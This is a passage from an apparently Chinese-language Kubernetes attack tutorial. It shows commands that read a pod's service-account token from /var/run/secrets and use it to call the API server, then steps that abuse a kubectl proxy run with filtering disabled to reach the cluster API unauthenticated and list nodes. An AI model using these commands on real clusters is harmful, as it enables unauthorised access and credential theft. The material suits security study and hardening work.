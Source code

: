 ```plain
[root@localhost ~]# TOKEN_VALUE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
[root@localhost ~]# curl -k --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H  "Authorization: Bearer $TOKEN_VALUE" https://10.0.0.1:443/api/v1/pods
```

### kube-proxy配置错误

**基本介绍**  
Kubectl Proxy代理程序既能作为API Server的反向代理，也能作为普通客户端访问API Server的代理，当开发人员使用Kubectl proxy将API Server外置时攻击者可以通过使用和K8s API Server未授权一样的漏洞实施攻击操作  
**漏洞利用**  
Step 1：通过执行以下命令启动我们自定义的

```plain
kubectl proxy --port=8080 --address=192.168.17.144 --api-prefix=/ --disable-filter=true
```

[![](assets/1698893355-6a4e55565746fb10f43d41b34e78b676.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171652-3c460710-7317-1.png)  
Step 2：之后再浏览器中访问  
[![](assets/1698893355-9d9ed9ddf48d8db7ee8c08dd7fcf0471.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171707-44f8aad4-7317-1.png)  
Step 3：之后和K8s API Server未授权利用一致，例如：获取节点信息

```plain
#格式说明
kubectl -s ip:port get nodes

#执行实例
kubectl -s 192.168.17.144:8080 get nodes
```
